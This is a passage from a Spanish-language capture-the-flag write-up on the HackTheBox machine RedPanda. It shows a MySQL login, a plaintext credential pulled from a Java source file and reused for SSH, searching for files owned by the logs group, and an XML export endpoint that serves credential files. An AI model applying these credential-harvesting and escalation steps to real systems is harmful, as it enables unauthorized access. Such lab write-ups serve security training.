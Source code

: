 
```bash
mysql -u woodenk -p -D red_panda
```


Tambien nos encontramos con un archivo que tiene credeciales  `RedPandazRule` que usaremos para conectarnos por ssh.


```default
cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
```


{:.note}
Es to se consige ejecutando los comandos o monitores.


```bash
ssh woodenk@10.10.11.170
```

{:.note}
La credecial es la pass.


***

## Escalacion de privileguios


El shell inverso también tiene privilegios de grupo de logs, esto es porque la aplicación web está basada en`panda_search-0.0.1-SNAPSHOT.jar` y se ejecuta con privilegio de logs.


```bash
find / -group logs 2>/dev/null
```


```bash
ls -l /opt/panda_search/redpanda.log
```


En  esta parte hay que ver vien el archivo donde encontramo la credecial porque es un archivo muy curioso ya que esta exportando un xml.

***

```java
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
  public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }
```
***
